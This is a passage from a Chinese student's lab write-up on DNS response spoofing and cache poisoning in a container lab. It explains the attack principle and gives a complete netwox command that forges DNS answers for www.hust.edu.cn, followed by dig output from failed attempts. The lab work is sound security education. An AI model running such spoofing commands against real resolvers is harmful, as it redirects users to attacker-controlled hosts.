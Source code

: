 ![1.3.5.DNS数据包](https://raw.githubusercontent.com/BIIIANG/pic/main/202205012226858.png)

### 1.3.3 使用`scapy`进行攻击

- 在进行完`1.4.3 使用scapy进行DNS缓存中毒攻击`后，只需将攻击程序的`filter`修改为`'udp and dst port 53 and src host 172.18.0.2'`，得到程序`directly_spoofing_response.py`，使用该程序也可以完成直接欺骗用户响应的攻击，此处不再赘述。

<div style="page-break-after: always;"></div>

## 1.4 `DNS`缓存中毒攻击

### 1.4.1 攻击原理

当`DNS`服务器`Apollo`收到查询时，如果主机名不在`Apollo`的域中，它将要求其他`DNS`服务器解析主机名。请注意，在我们的实验设置中，我们的`DNS`服务器的域名是`xubiang.com`; 因此，对于其他域（例如`xubiang.net`）的`DNS`查询， `DNS`服务器`Apollo`将询问其他`DNS`服务器。但是，在`Apollo`询问其他`DNS`服务器之前，它首先从自己的缓存中寻找答案 ; 如果有答案，`DNS`服务器`Apollo`将简单地回复其缓存中的信息。如果答案不在缓存中， `DNS`服务器将尝试从其他 `DNS`服务器获得答案。 当`Apollo`得到答案时，它会将答案存储在缓存中，因此下次无需询问其他`DNS`服务器。 因此，如果攻击者可以欺骗来自其他`DNS`服务器的响应，`Apollo`会将欺骗性响应保留在其缓存中一段时间。下次，当用户的计算机想要解析相同的主机名时，`Apollo`将使用缓存中的欺骗响应进行回复。这样，攻击者只需要欺骗一次，就能将影响持续到缓存的信息到期为止。 此攻击称为`DNS`缓存中毒。

### 1.4.2 使用`netwox`进行攻击

- 攻击前，在客户机使用`dig www.hust.edu.cn`进行`DNS`请求，结果与`1.3.2 使用netwox进行攻击`相同，该域名对应的正确`IP`为`202.114.0.245`。
- 攻击前先清空`DNS`服务器的`DNS`缓存并重启`bind9`服务，以延长服务器相应`DNS`请求的时间，提高攻击成功概率（每次进行攻击前均进行以下操作，不再赘述）：

```shell
root@DNS_Server:/# sudo rndc flush
root@DNS_Server:/# sudo service bind9 restart
 * Stopping domain name service... bind9
  waiting for pid 1465 to die
                                                               [ OK ]
 * Starting domain name service... bind9                       [ OK ]
```

![1.4.1.清除DNS缓存](https://raw.githubusercontent.com/BIIIANG/pic/main/202204301954262.png)

#### 1.4.2.1 一些失败的尝试

- 使用`netwox`伪造`www.hust.edu.cn`的`IP`地址：`sudo netwox 105 -h "www.hust.edu.cn" -H "172.18.0.1" -a "ns.hust.edu.cn" -A "201.91.180.3" -d br-e4a075733e38 -T 11803 -f "src host 172.18.0.3" -s "raw"`，其中伪造的`IP`为攻击机的`IP`，伪造的`ns.hust.edu.cn`的`IP`为学号`U201911803`生成的错误`IP`。
  - 使用`-s "raw"`的原因是：**（此处为参考指导书，前三次失败的攻击使用了该参数，而在后续尝试中发现不应该使用该参数，具体原因见后续实验）**`raw`选项指定仅在`ip`层进行欺骗，若不选择`raw`，则`Netwox 105`将对被欺骗的`IP`地址也进行`MAC`地址欺骗。为了获得`MAC`地址，该工具发出`ARP`请求，询问欺骗`IP`的`MAC`地址。此欺骗`IP`地址通常是外部`DNS`服务器的`IP`地址，该服务器不在同一`LAN`上。因此，没有主机会回复`ARP`请求。该工具将在没有`MAC`地址的情况下等待`ARP`回复一段时间。 这个等待会使工具发出欺骗性响应延迟。如果实际的`DNS`响应早于欺骗响应，则攻击将失败。
- 在首次尝试攻击时，前几次在客户机使用`dig www.hust.edu.cn`进行`DNS`请求均会失败，之后会得到正确的结果，攻击没有生效，失败的`DNS`询问与正确的结果如下：

```shell
## 失败的查询
root@DNS_User:/# dig www.hust.edu.cn

; <<>> DiG 9.10.3-P4-Ubuntu <<>> www.hust.edu.cn
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: SERVFAIL, id: 45806
;; flags: qr rd ra; QUERY: 1, ANSWER: 0, AUTHORITY: 0, ADDITIONAL: 1

;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; udp: 4096
;; QUESTION SECTION:
;www.hust.edu.cn.		IN	A

;; Query time: 4985 msec
;; SERVER: 172.18.0.3#53(172.18.0.3)
;; WHEN: Sat Apr 30 19:42:08 CST 2022
;; MSG SIZE  rcvd: 44
```